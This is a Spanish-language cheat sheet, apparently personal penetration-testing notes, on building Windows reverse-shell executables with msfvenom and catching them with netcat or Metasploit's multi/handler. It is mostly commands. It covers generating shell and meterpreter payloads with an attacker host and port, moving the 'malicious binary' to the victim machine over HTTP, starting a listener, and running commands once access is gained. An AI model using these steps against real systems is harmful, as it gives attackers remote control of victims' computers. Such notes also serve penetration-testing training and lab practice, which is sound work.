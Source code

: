 ## Msfvenom ❮❯

Tags: #Msfvenom #Metasploit #ReverShell #Payloads #Netcat #Windows 

### Netcat
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso


### Payload Staged 
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter/reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```



### Payload Non-Staged
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter_reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```